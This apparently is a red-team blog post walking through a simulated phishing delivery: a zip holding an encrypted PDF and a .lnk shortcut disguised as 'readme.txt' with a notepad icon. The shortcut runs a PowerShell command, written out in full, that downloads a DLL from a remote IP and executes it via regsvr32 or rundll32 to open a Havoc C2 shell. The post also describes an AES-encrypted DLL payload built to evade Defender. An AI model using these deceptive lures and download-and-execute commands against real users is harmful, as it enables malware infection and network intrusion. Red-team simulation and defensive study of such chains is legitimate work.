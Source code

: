 ```yaml
---
title: "Initial Access Simulation" 
layout: "post"
---
```


In this specific scenario we will try to experiment and simulate a malware payload delivery using the following technique frequently used by Threat Actors (TA): 

- Zip Folder
- .LNK file execution
- DLL Execution 
- Havoc C2C comunications

We will discuss a simple, minimal and baseline approach and we will take into account fews considerations regarding the initial access aspects. 



In normal red team campain it is paramount to find a way to deliver the malicious payload and force the user to interact with our files. 
For this reason, in this particular scenario, we will try to simulate a .zip delivery containing two distinct file. 
The firs file inside the `.zip` will be an encrypted PDF document (sign contract, legal document, CV, just use your immagination), the second one will be a `.lnk` shortcut file masquerade as a text file (`readme.txt`). 
The idea here is the following: the user receive the files (could be via email or via MS Teams) and try to open up the encrypted pdf, which will ask the user to specify a password and then the user will open up the fake notepad file to recover the original PDF's password. 
By doint so the `.lnk` shortcut file in the background will execute the tasks necessary to deliver and execute our malicious DLL.  



## 1) Introduction Initial Access 

Initial Access involves a range of techniques employed by threat actors to establish their initial presence within a target network. 
These methods encompass various entry vectors that serve as a foothold into the network. 
One particularly relevant technique is the employment of targeted spear-phishing campaigns. 
In these campaigns, attackers meticulously craft deceptive emails tailored to deceive recipients, often leading them to unknowingly disclose sensitive credentials or execute malicious attachments. 

This tactic holds significant relevance as successful spear-phishing attempts can grant attackers direct access to a network, bypassing many traditional security measures. 
In addition, threat actors frequently exploit vulnerabilities present in public-facing web servers to penetrate the network's defenses. It's noteworthy that initial access points gained through these techniques could grant ongoing access, such as using compromised accounts and external remote services. 

However, the effectiveness of these access points might diminish due to changing passwords or other security measures. 
Analyzing historical attacks by prominent threat actors reveals that these tactics are recurrently employed to breach networks, underscoring the significance of robust initial access security measures."


 



## 2) Defender Bypass Payload

We are not going into details on how we created this stealth DLL payload in this blogpost. 
Is it obviously possible to used any payload you want, the only assumption is that the paylod itself must be undetected by Defender AV and static signature. 
The DLL itself is pretty simple and perform the classic injection using the VirtualAlloc Windows API. 
However, to bypass static signature, the shellcode is encrypted with AES. 
Inside the DLL we have also included the AES Key to decrypt the shellcode as well as the AES Decryption. 

__Note:__ Since we are saving a payload into the disk we don't need to worry about AMSI at this stage. We are not operating in memory even though this can be considered not OPSEC safe. 



## 3) Weaponize Payload Delivery with LNK 

Firt of all we need to create a shortcut file that will be delivered with the encrypted PDF. Right click on your Desktop, click on create shortcut and you must enter the full path of `cmd.exe`, in this case it will be `C:\Windows\System32\cmd.exe`. 

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/lnk.PNG">
</p>


After that we can specify readme.txt as a shortcut name. (remember we want the user to click on the shortcut file thinking it is a text file with the password inside). Since we don't want to show the typical cmd.exe icon we can then add a specific icon that in this case will be notepad. Now we need to click on the shortcut properties and changhe the icon to match to notepad.txt (default windows text editor). 


<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/lnk2.PNG">
</p>

Now we can add the powershell command to download the DLL from a remote location. This must be specified inside the shortcut target menu interface. Then we can specify the output where to save the `.dll` file. For this we will leverage the `%TMP%` environment variable of Windows so we don't even need to know the local user accoun name and path. 

The full command specified inside the shortcut file is the following: 

```powershell 
C:\Windows\System32\cmd.exe /c powershell.exe wget http://192.168.133.152:1234/h.dll -OutFile %TMP%\h.dll && regsvr32 %TMP%\h.dll 
```
__Note:__ The powershell download can be performed with the usual suspect IEX Download String function. 🚩

Futhermore, the above command is included inside the readme.lnk file which will look like this to the end user. 

Below we can see the files that will be displayed to the user after unziping the `.zip` folder delivered via email or when possible via Microsft Teams. 

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/Invoice.PNG">
</p>

__Note:__ Obviously we can create a .lnk file with the desired command and subsequently add the typical pdf icon. 🚩

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/lnk3.PNG">
</p>

Upon executing the `readme.txt` file on the attacker machine we can see a web request on the webserver. 

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/down.JPG">
</p>

Furthermore, as soon as the file is downloaded and executed we can see our reverse shellcode in the Havoc C2C framework. 


<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/hav1.JPG">
</p>

With some modification on the `.dll` file we can also perform the same activity using the `rundll32` windows binary. 


```powershell 
C:\Windows\System32\cmd.exe /c powershell.exe wget http://192.168.133.152:1234/h.dll -OutFile %TMP%\h.dll && rundll32 %TMP%\h.dll 
```
The command is pretty similar even though in this case we need to specify the export function name declared in our `.dll`



## 4) Conclusion and Limitation

- Email gateway scanner 
- Proxy communications 
- PackMyPayload https://github.com/mgeeky/PackMyPayload


## References 

- https://www.truesec.com/hub/blog/darkgate-loader-delivered-via-teams
